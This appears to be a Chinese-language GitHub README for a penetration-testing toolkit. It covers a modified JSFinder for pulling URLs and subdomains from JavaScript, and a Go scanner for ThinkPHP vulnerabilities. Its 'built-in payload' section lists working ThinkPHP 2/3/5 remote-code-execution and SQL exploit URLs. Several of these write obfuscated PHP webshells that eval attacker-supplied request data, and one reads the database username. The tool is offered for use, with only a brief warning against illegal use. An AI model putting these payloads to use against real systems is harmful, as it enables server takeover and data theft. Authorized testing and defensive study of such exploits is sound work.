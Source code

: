 # Tools

> 这是Tptfb11的渗透测试工具库，包含自己开发的常用工具以及一些对市面上已有工具的更改，使他们更加方便我们使用，喜欢的话请点击右上角的start

# JSFinder

​	JSFinder是一款用作快速在网站的js文件中提取URL，子域名的工具。

​	原作者：[Threezh1/JSFinder:](https://github.com/Threezh1/JSFinder)

​	我的更改是在原有的基础之上，使用了多线程爬取和解析网站的js接口。并且新增了-html参数可以导出html可视化报告，思路参考了：https://harvey.plus/2021/01/21/%E7%9C%9F%E9%A6%99%E7%B3%BB%E5%88%97-JSFinder%E5%AE%9E%E7%94%A8%E6%94%B9%E9%80%A0/

# Go-ThinkPHP-Tool

​	Go-Thinkphp-Tool是本人使用go语言编写的一款针对thinkPHP漏洞探测的一个自动化工具。

## 使用方式

```powershell
PS > & '.\ThinkPHP Tool.exe' -help

  _______ _     _       _    _____  _    _ _____    _______          _
 |__   __| |   (_)     | |  |  __ \| |  | |  __ \  |__   __|        | |
    | |  | |__  _ _ __ | | _| |__) | |__| | |__) |    | | ___   ___ | |
    | |  | '_ \| | '_ \| |/ /  ___/|  __  |  ___/     | |/ _ \ / _ \| |
    | |  | | | | | | | |   <| |    | |  | | |         | | (_) | (_) | |
    |_|  |_| |_|_|_| |_|_|\_\_|    |_|  |_|_|         |_|\___/ \___/|_|

                                                                                                                       --By Tptfb11
Usage of C:\Users\Tptfb11\Desktop\ThinkPHP\ThinkPHP Tool.exe:
  -f string
        [-] -f input file
  -m string
        [-] choose module: 默认全部检测！
        '-m tp2' 检测thinkPHP2 rce
        '-m tp3' 检测thinkPHP3 log_rce
        '-m tp5' 检测thinkPHP5 sql+rce
  -url string
        [-] plase input a url
```

## 内置payload

```go
thinkphp2
	rce
		/index.php/module/action/param1/${@(whoami)}
thinkphp3
	log-rce
		/?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/22_01_01.log
		.......
thinkphp5
	rce
		_method=__construct&method=GET&filter[]=assert&get[]=phpinfo()
		/?s=index/think\app/invokefunction&function=phpinfo&vars[0]=100
		/?s=index/\think\Container/invokefunction/invokefunction&function=phpinfo&vars[0]=100
		/?s=index/\think\Request/input&filter=var_dump&data=hack
		/?s=index/\think\view\driver\Php/display&content=%3C?php%20var_dump(md5(hack));?%3E
		/?s=index/\think\template\driver\file/write&cacheFile=mqz.php&content=%3C?php%20var_dump(md5(hack));?%3E
		/?s=index/think%5Capp/invokefunction&function=call_user_func_array&vars%5B0%5D=file_put_contents&vars%5B1%5D%5B%5D=12345.php&vars%5B1%5D%5B1%5D=%3C?php%20echo%20'vul';%20$poc%20=%22axsxsxexrxt%22;$poc_1%20=%20explode(%22x%22,%20$poc);$poc_2%20=%20$poc_1%5B0%5D%20.%20$poc_1%5B1%5D%20.%20$poc_1%5B2%5D%20.%20$poc_1%5B3%5D.%20$poc_1%5B4%5D.%20$poc_1%5B5%5D;$poc_2(urldecode(urldecode(urldecode($_REQUEST%5B'12345'%5D))));?%3E
		/?s=index/think%5Capp/invokefunction&function=call_user_func_array&vars%5B0%5D=file_put_contents&vars%5B1%5D%5B%5D=12345.php&vars%5B1%5D%5B1%5D=%3C?php%20echo%20'vul';%20$fun%20=%20create_function('',urldecode(urldecode(urldecode($_REQUEST%5Bwww%5D))));$fun();?%3E
	sql
		/?s=index/think\config/get&name=database.username
```

## 说明

​	禁止非法使用！！
